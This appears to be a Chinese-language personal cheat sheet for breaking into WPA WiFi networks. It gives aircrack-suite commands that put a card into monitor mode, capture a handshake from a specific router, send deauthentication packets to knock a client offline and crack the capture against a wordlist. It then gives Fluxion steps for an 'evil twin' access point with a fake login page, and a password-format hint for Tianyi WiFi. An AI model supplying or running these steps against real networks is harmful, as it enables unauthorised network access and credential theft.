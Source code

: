 
被动方式
```sh
lusb # 看有没有显示
ifconfig # 查看 wlan0 无线网卡
airmon-ng # 查看是否支持监听模式 显示wlan0 支持
airmon-ng start wlan0 # 开启监听

airodump-ng wlan0  # 扫描 wifi

# BSSID             PWR   Beacons	CH  # CH wifi频段11
# 60:32:B1:56:3F:B2 -32   24      11
# BSSID              STATTION
# 60:32:B1:56:3F:B2  CC:08:FB:DD:42:18

# 只用此方式抓包较慢
airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/lingdu/handshake wlan0

# 第一行 CH  9 ][ Elapsed: 27 s ][ 2023-01-14 22:40 ][ WPA handshake: 34:36:54:D8:1F:A9 # 显示 handshake 为攻击成功, 这时Ctrl+C退出命令
```

ACK方式
```sh
# 方式1 上面的不要关闭 执行下面
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0
# 方式2 停止扫描， 执行攻击， 马上开启扫描。
# -0: 通知设备断开连接 10: 攻击次数 -a:目标bssid -c: 目标踢下线的设备
```

aircrack-ng -w ~/password.txt -b ~/handshake-01.cap


## 钓鱼 fluxion
https://github.com/FluxionNetwork/fluxion

```sh
./fluxion.sh -i

# 2.Handshake Snooper 检索WPA/WPA2加密散列。
# 3.扫描所有信道 （2.4G和5G),  绿色是正在有人在连接且扫描到的。白色不确定是否有连接。
# 选wifi，显示026直接输入26回车
# 2.重置攻击
# 2.aireplay-ng 解除认证方式
# hash 验证方法: cowpatty

# 返回
# 1 创建一个邪恶的双胞胎接入点
# 1 创建SSL证书
# 2 仿真（断开原网络的选项 需要测试，不确定效果）
# 认证页面 选3中文。 (如果确认对方路由器也可选别的)
```
## Dictionary

天翼wifi:8位数字密码，例如 xx4yyykw


## Article
[零度WIFI安全测试](https://www.youtube.com/watch?v=_9q9Cl555wg)